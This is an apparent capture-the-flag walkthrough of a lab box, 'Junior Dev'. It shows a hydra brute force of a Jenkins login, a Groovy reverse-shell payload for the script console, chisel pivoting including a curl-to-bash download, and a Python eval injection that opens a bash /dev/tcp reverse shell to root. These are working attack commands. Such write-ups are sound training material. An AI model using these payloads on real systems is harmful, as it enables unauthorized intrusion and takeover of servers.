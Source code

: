 # Junior Dev

***
## Difficulty = Medium

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/cd3ad44f-1954-4968-91ef-3fd8d3b06b12)

***


Running our nmap scan we have :


```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-23 20:57 EDT
Nmap scan report for 10.150.150.38
Host is up (0.21s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 64:63:02:cb:00:44:4a:0f:95:1a:34:8d:4e:60:38:1c (RSA)
|   256 0a:6e:10:95:de:3d:6d:4b:98:5f:f0:cf:cb:f5:79:9e (ECDSA)
|_  256 08:04:04:08:51:d2:b4:a4:03:bb:02:71:2f:66:09:69 (ED25519)
30609/tcp open  http    Jetty 9.4.27.v20200227
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.85 seconds
nmap -p22,30609 -sCV 10.150.150.38
```


Nice, decided to check port `22/SSH` if there are any banners


![](https://i.imgur.com/BLyzO03.png)


Cool, No banners, let check out the port running on `30609/HTTP`


![](https://i.imgur.com/wXYfe9k.png)

We have a login page, Trying out **directory bruteforce** , i found some endpoints but they where not all worth it (Rabbit holes 🐇)

![](https://i.imgur.com/iQXXFe1.png)

Well i navigated to `/robots.txt` and we have this message - **"# we don't want robots to click "build" links"**, Looks like a clue to something 🤔

![](https://i.imgur.com/NGHmO0U.png)


I decided to **view-page source** of the Jenkins login page and i saw this particular [**"action="j_acegi_security_check"**](https://community.jaspersoft.com/questions/514519/about-acegi) which is more of like an entry point for authentication



![](https://i.imgur.com/vZLZE3i.png)



So i decided to take a look at this tryhackme forum [discussion](https://tryhackme.com/forum/thread/630f5aa391a3470044dd86f1) which led me to bruteforcing the login page with hydra, using the following syntax


```bash
$ hydra 10.150.150.38 -s 30609 -l admin -P /usr/share/wordlists/rockyou.txt  -V http-form-post '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Logi
n:F=Invalid username or password'
```



**_Output :_**


![](https://i.imgur.com/1k9OoPk.png)


Now that we have Username and Password, we can go ahead and login


![](https://i.imgur.com/cxJ5DTw.png)


Next, Navigate to **Manage Jenkins** on the side menu bar

![](https://i.imgur.com/Vv198jR.png)

Scroll down and select select **Script console**

![](https://i.imgur.com/3Y43Y7Z.png)

Now start up your `netcat` listener on port `8044` and paste in this payload on the console and click **Run**


```
String host="10.66.66.246";
int port=8044;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

You should get your reverse shell back as **Jenkins**

![](https://i.imgur.com/m2N0Tcb.png)


### **Pivoting**

After much enumeration on finding password in config files, SUID, SUDO, capabilities etc nothing was found but running `netstat -ant` gives us a port `8080` listening on `127.0.0.1`

![](https://i.imgur.com/ZetKJio.png)


- Download chisel with following command

```bash
$ curl https://i.jpillora.com/chisel! | bash
```

- Send it to our target using `python` and `wget`

```bash
# Attacker
$ python3 -m http.server 80

# Target
$ wget ATTACKER-IP/chisel
```


- Now on attacker's machine start up chisel with the following command

```bash
$ chmod +x chisel
$ ./chisel server -p 8001 --reverse
```

- On target machine start up chisel with

```bash
$ chmod +x chisel
$ ./chisel client ATTACKER-IP:8001 R:8080:127.0.0.1:8080
```


![](https://i.imgur.com/80FEBaK.png)


Now we can navigate to `http://127.0.0.1:8080` on our browser and we have this :


![](https://i.imgur.com/HY7B7rK.png)


**Viewing Page-Source** we have a commented `img` tag


![](https://i.imgur.com/I6C8iH8.png)



Navigating to `/static/FLAG.png` we have **FLAG71**



![](https://i.imgur.com/jzLMFxs.png)



### **Privilege Escalation**

Running [pspy](https://github.com/DominicBreuker/pspy) on our target system we have a root process that is actively running at the server side of the website, `http://127.0.0.1:8080`

![](https://i.imgur.com/MI0Ar3z.png)


Immediately, my mind went to [**python command injection**](https://vk9-sec.com/exploiting-python-eval-code-injection/) since this process is running a file called `untitled.py` with `/usr/bin/python`, we can then -:

- start up our listener

```bash
$ nc -lvnp 3000
```

- Inject the python payload in the first box on the website to get reverse shell


```python
__import__('os').system('bash -c "bash -i >& /dev/tcp/10.66.66.246/3000 0>&1" ')#
```


Then we got reverse shell as user **root**


![](https://i.imgur.com/Ck88NLU.png)




### **_Things i would take note of :_**



- First of all **pivoting** isn't new to me, except for the fact that i had to edit my `/etc/proxychains4.conf` file in other to be able to have access to that specific port, Over here we just accessed it directly because we forwarded traffic from the local port `8080` on our machine to port `8080` on our attacker machine with the IP address `127.0.0.1` (localhost).

- Secondly, **Python Command Injection** seems new to me here and took me hours before i could figure it out, i once did something like this but never knew it was python command injection, it consists of using the `eval` built-in function which takes a single argument and can be a powerful tool for dynamic code execution.



**Have Fun**


![](https://media.tenor.com/qsdqhlumpMYAAAAC/anime-bankai.gif)



<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>


